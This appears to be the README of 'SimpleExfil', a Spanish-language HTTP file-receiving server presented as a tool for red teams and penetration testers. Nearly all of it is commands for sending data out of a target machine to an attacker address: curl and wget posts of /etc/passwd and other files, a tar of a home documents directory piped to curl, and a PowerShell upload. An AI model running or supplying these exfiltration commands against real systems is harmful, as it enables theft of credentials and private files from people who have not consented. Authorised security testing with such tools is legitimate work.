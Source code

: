 # SimpleExfil
Un servidor HTTP simple para recepción de archivos diseñado para actividades de Red Team y Penetration Testing.

### Exfiltrar archivos desde sistema objetivo
bash# curl -X POST -F "file=@/etc/passwd" http://[IP-ATACANTE]:8000

bash# wget --post-file=/path/to/file http://[IP-ATACANTE]:8000

### Subir múltiples archivos
curl -X POST -F "file=@documento.txt" -F "file=@config.conf" http://[IP-ATACANTE]:8000

### Comprimir y subir directorio
tar czf - /home/user/documents/ | curl -X POST -F "file=@-;filename=documents.tar.gz" http://[IP-ATACANTE]:8000

### PowerShell (Windows)
powershell# Invoke-RestMethod -Uri "http://[IP-ATACANTE]:8000" -Method Post -InFile "C:\Users\user\document.txt" -ContentType "multipart/form-data"
